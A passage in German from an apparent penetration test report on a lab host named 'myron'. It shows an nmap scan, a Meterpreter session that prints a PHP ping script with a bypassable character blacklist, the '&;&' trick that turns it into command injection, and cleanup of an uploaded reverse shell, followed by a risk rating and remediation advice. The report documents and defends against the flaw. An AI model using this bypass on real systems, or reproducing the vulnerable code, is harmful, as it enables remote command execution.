Insbesondere fällt in Zeile 6 vom Textauszug \ref{lst:vuln1_start_metasploit_handler} auf, dass die Verbindung nicht von der IP-Adresse des \texttt{myron}-Hosts aufgebaut, sondern von der IP-Adresse 172.16.30.222 aufgebaut wurde. Dies lässt somit darauf schließen, dass sowohl die IP-Adressen \texttt{172.16.30.222} und \texttt{172.16.30.80} mittels einer NAT-Firewall die eigentliche IP-Adresse \texttt{172.16.33.10} des \texttt{myron}-Hosts übersetzen. Ein zusätzlicher nmap-Scan aller TCP-Ports mittels eines SYN-Scans inkl. Service- und Betriebssystem-Erkennung der \texttt{172.16.30.222} IP-Adresse zeigt, dass über diese IP-Adresse nur der Port 22 des OpenSSH-Servers in der Version 6.6.1p1 offen ist. Textauszug \ref{lst:vuln1_nmap_myron_222} zeigt den nmap-Befehl sowie die dazugehörige Ausgabe. Darüber hinaus ist die IP-Adresse \texttt{172.16.30.222} unter dem DNS-Namen \texttt{login.mb-reps.cool.datcom.prv} bekannt.

\lstset{language=bash,caption={Scannen aller TCP-Ports der IP-Adresse 172.16.30.222.}, label=lst:vuln1_nmap_myron_222}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
gu4c4m0l3@msf-kali-t470 [S:0, J:1] > db_nmap --dns-servers 172.16.77.1 -PS20-25,80,443,445,8080,8443 -R -sS -p - -sV -O --script=vuln -T4 172.16.30.222
[*] Nmap: Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-27 14:20 CET
[*] Nmap: Nmap scan report for login.mb-reps.cool.datcom.prv (172.16.30.222)
[*] Nmap: Host is up (0.034s latency).
[*] Nmap: Not shown: 65534 filtered tcp ports (no-response)
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
[*] Nmap: Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
[*] Nmap: Device type: general purpose
[*] Nmap: Running (JUST GUESSING): Linux 3.X|4.X (89%)
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
[*] Nmap: Aggressive OS guesses: Linux 3.11 - 4.1 (89%), Linux 3.16 (89%), Linux 4.4 (87%), Linux 3.2.0 (87%), Linux 3.10 - 3.16 (86%)
[*] Nmap: No exact OS matches for host (test conditions non-ideal).
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 130.36 seconds

\end{lstlisting}

Zeile 16 bis Zeile 34 von Textausgabe \ref{lst:vuln1_out_php} zeigt das verwundbare PHP-Skript \texttt{out.php} welches über die URL \texttt{http://172.16.30.80/staradmin/out.php} erreichbar ist und auf dem \texttt{myron}-Server unter \texttt{/var/www/staradmin/out.php} vorzufinden ist. Das PHP-Skript erwartet eine HTTP POST-Anfrage mit einem gesetzten \texttt{Submit}-Parameter und extrahiert den \texttt{ip}-Parameter aus der HTTP-Anfrage. Der ursprüngliche Entwickler hatte in den Zeilen 23 und 26 mutmaßĺich versucht, die Verkettung von mehreren Linux-Kommandos innerhalb des \texttt{ip}-Parameters durch eine Ersetzungstrategie entsprechender Kontrollzeichen zu verhindern. Mit der Eingabe von \texttt{\&;\&} innerhalb des \texttt{ip}-Parameters konnte gezeigt werden, dass das \textbf{;}-Zeichen (Semikolon) durch einen Leerstring ersetzt wurde. Übrig bleibt \texttt{\&\&} und bedeutet unter Linux, dass bei erfolgreicher Ausführung des vorherigen Befehls (vor den beiden UND-Zeichen) anschließend auch der nachfolgende Befehl ausgeführt wird. In dem oben genannten Beispiel bedeutet das, dass zum \texttt{ping -c 4}-Befehl in Zeile 29 ein gültiger Hostname oder eine valide IP-Adresse im \texttt{ip}-Parameter angegeben werden muss, sodass das ping-Tool mit dem erfolgreichen Return-Code 0 beendet. Nur dann kann das vom Angreifer nachgestellte Kommando (hinter \texttt{\&;\&}) ausgeführt werden.

\lstset{language=bash,caption={Pfad und Inhalt der unsicheren out.php-Datei}, label=lst:vuln1_out_php}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
meterpreter > pwd
/var/www/staradmin
meterpreter > ls
Listing: /var/www/staradmin
===========================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040750/rwxr-x---  4096    dir   2020-05-17 08:24:44 +0200  css
100644/rw-r--r--  494     fil   2021-04-19 20:05:51 +0200  flag_24f3b6db93dfa569710c2741e58fe756.html
100750/rwxr-x---  1730    fil   2020-05-17 08:24:44 +0200  index.html
100644/rw-r--r--  128693  fil   2021-04-19 19:36:53 +0200  marvin.png
100750/rwxr-x---  610     fil   2021-04-19 20:09:30 +0200  out.php

meterpreter > cat out.php 
<?php
    if( isset( $_POST[ 'Submit' ]  ) ) {
        
        //Hole die Nutzereingabe
        $target = trim($_REQUEST[ 'ip' ]);

        // Blacklist-Array
        $substitutions = array('&&'  => '', '& ' => '', ';'  => '', '$'  => '', '('  => '', ')'  => '', '`'  => '', '||' => '', '|' => '',);
        
        // Entferne Zeichen aus dem Blacklist-Array
        $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

        // Führe den Ping durch
        $cmd = shell_exec( 'ping -c 4 ' . $target );

        // Nutzerausgabe
        echo "<pre>{$cmd}</pre>";
    }
?> 
\end{lstlisting}

\subsection{Risikobewertung}
Wie in Kapitel \ref{vuln1_way} gezeigt werden konnte, ist es einem entfernten und nicht authentifizierten Angreifer möglich, beliebige Befehle mit Rechten des Web-Server-Benutzers (\texttt{www-data}) auszuführen, Informationen/Dateien zu extrahieren und neue Dateien bzw. Softwarepakete hochzuladen. Darüber hinaus kann der Angreifer weitere interne Systeme scannen und auf weitere Schwachstellen überprüfen.

Für die Ausnutzung der Schwachstelle benötigt der Angreifer Kenntnis über den \textit{staradmin}-HTTP-Pfad und erweiterte Linux-Kenntnisse zur Ausführung mehrerer Linux-Befehle innerhalb eines Linux-Kommandos sowie über gängige Zeichenersetzungsstrategien. Ersteres kann mittels gängigen Scan-Tools (wie zum Beispiel \texttt{dirb}) erlangt werden. Aufgrund unzureichender Eingabeprüfung des \texttt{ip}-Parameters im \textit{out.php}-Skript, ist es einem Angreifer möglich beliebige Befehle durch umgehen der Zeichenersetzungsstrategie auszuführen. 

Da es sich bei dem Domänenamen \texttt{mb-reps.cool.datcom.prv} um den öffentlichen Internetauftritt des Kunden handelt und somit jedem Angreifer mit Internetanbindung zur Verfügung steht, ist die Eintrittswahrscheinlichkeit zur Ausnutzung dieser Schwachstelle aufgrund der potenziellen großen Angreiferzahl - ohne vorheriger Authentifizierung - mit HOCH einzustufen. 

Aufgrund der Tatsache, dass diese Schwachstelle das Einfallstor zur internen IT-Infrastruktur darstellt, welches einem Angreifer die Ausführung beliebiger Befehle, das Nachladen oder die Extraktion weiterer Dateien erlaubt und weitere Angriffe auf die interne Infrastruktur ermöglicht, ist die Schadenshöhe mit HOCH einzustufen.

Das Gesamtrisiko wurde mit \textcolor{red}{HOCH} bewertet.

\subsection{Empfohlene Gegenmaßnahmen}
Zur Mitigation der Schwachstelle wird empfohlen, anstelle einer Zeichenersetzungstrategie für verbotene Zeichen innerhalb der \textit{out.php}-Datei auf einen Whitelisting-Ansatz abzuändern. Da bei der Eingabe des Ping-Tools eine IP-Adresse bzw. ein Domainname erwartet wird, sollten lediglich die Zeichen \texttt{0-9}, \texttt{a-zA-Z} sowie \texttt{.-:} mit einer maximalen Gesamtlänge von 63 Zeichen erlaubt werden. Das erste Zeichen des \texttt{ip}-Parameters sollte dabei mit einem alphanummerischen Zeichen oder einem Doppelpunkt (im Falle von IPv6-Adressen) beginnen.

Grundlegend sollte darüber hinaus geprüft werden, ob ein Ping-Tool zwingend über den öffentlichen Auftritt der MB-Reps-Website zur Verfügung gestellt werden muss. Des Weiteren ist es einem Angreifer selbst über eine abgesicherte Ping-Applikation möglich, interne Details zu verfügbaren Hosts mittels systematischer Versuche interner IP-Adressen herauszufinden. Es wird empfohlen, sofern keine geschäftlichen Belange dagegen sprechen, das Ping-Tool nur für authentifizierte Benutzer mit einem effektiven Logging zur Verfügung zu stellen und gegebenenfalls im internen Netzwerk bereit zu stellen, da im Falle einer massiven Nutzung des Ping-Tools durch viele Benutzer die Ressourcen (insbesondere Threads) des Webservers aufgebraucht werden könnten. In diesem Zuge sollte darüber hinaus auch geprüft werden, ob die Anzahl der Pings von 4 auf einen niedrigeren Wert herabgesetzt werden kann, um die Laufzeit des Ping-Tools und damit auch die Laufzeit der Threads auf dem Web-Server zu verringern.

\subsection{Hinterlassene Spuren und Spurenbeseitigung}
Es wurde die Meterpreter-Datei \texttt{rshell} im \texttt{/tmp/}-Verzeichnis auf dem \texttt{myron}-Host hochgeladen und ausgeführt. Die Datei sowie der dazugehörige Prozess wurden nach Durchführung des Pentests über den SSH-Zugang (für Details siehe Schwachstelle 2 und 3) unter Root-Berechtigungen mit den Befehlen aus Textauszug \ref{lst:vuln1_cleanup} entfernt. 

\lstset{language=bash,caption={Beseitigung der \texttt{rshell}-Datei und Beenden des dazugehörigen Prozesses}, label=lst:vuln1_cleanup}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
myron@myron:~$ sudo -s
[sudo] password for myron: 
root@myron:~# killall /tmp/rshell
root@myron:~# rm /tmp/rshell
\end{lstlisting}


\subsection{Security-in-Depth-Maßnahmen zur myron-Webapplikation}
Es wird weiter empfohlen, den Apache Server des \texttt{myron}-Hosts auf die neueste Version zu aktualisieren, da einige Schwachstellen für die Version 2.4.7 bekannt geworden sind. Details können unter \url{https://downloads.apache.org/httpd/CHANGES_2.4} eingesehen werden.

Darüber hinaus sollte für den Webauftritt ein Schutz vor \textit{Clickjacking}-Attacken durch Einsatz der HTTP-Header \texttt{Content-Security-Policy} und/oder \texttt{X-Frame-Options} präventiv eingeführt werden. Details können unter \url{https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options} eingesehen werden.

Die Bootstrap-Datei unter \texttt{http://172.16.30.80/js/bootstrap.min.js} in der Version 4.1.3 hat eine bekannte XSS-Schwachstelle (CVE-2019-8331) und sollte aktualisiert werden.

Ferner sollte der Webauftritt über HTTPS angeboten werden, um im Falle einer Erweiterung des Webauftritts potentielle Login-Zugänge oder andere sensible Daten abzusichern.

Darüber hinaus wird empfohlen DNSSEC für alle DNS-Einträge der Kundendomäne einzusetzen.